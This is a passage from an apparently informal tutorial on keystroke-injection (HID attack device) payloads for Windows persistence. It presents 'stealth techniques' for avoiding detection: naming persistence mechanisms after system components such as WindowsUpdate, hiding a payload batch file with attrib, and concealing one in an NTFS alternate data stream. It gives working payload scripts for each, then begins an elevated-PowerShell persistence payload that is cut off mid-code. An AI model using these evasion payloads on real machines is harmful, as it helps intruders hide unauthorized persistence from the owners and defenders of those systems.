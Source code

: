 Persistence is great, but if you're too obvious about it, you'll get caught faster than a teenager sneaking in after curfew. Here are some stealth techniques:

#### **1. Legitimate Names**
Don't name your persistence mechanisms "HACKER_BACKDOOR" or "EVIL_SCRIPT". Use names that blend in:
- `SystemMaintenance`
- `WindowsUpdate`
- `SecurityCheck`
- `PerformanceMonitor`

#### **2. File Hiding**
```bash
# Hide files using attrib
ATTACKMODE HID
DELAY 2000
MOD r
DELAY 500
STRING cmd /c "attrib +h +s C:\scripts\frog_payload.bat"
ENTER
DELAY 1000
STRING exit
ENTER
```

#### **3. Alternate Data Streams**
```bash
# Hide in ADS (Advanced)
ATTACKMODE HID
DELAY 2000
MOD r
DELAY 500
STRING cmd /c "echo @echo off > C:\temp\readme.txt:frog.bat"
ENTER
DELAY 1000
STRING exit
ENTER
```

---

## The Educational Payload: Automated System Setup

Let's create a real-world example that demonstrates legitimate persistence for system administration:

```bash
# Automated System Setup with Persistence
ATTACKMODE HID
DELAY 2000

# Open PowerShell as Administrator
MOD r
DELAY 500
STRING powershell -Command "Start-Process PowerShell -Verb RunAs"
ENTER
DELAY 3000

# Create persistent system maintenance script
STRING $maintenanceScript = @"
@echo off
echo [$(Get-Date)] Starting system maintenance...
echo Checking disk space...
wmic logicaldisk get size,freespace,caption
echo Checking system updates...
wuauclt /detectnow
```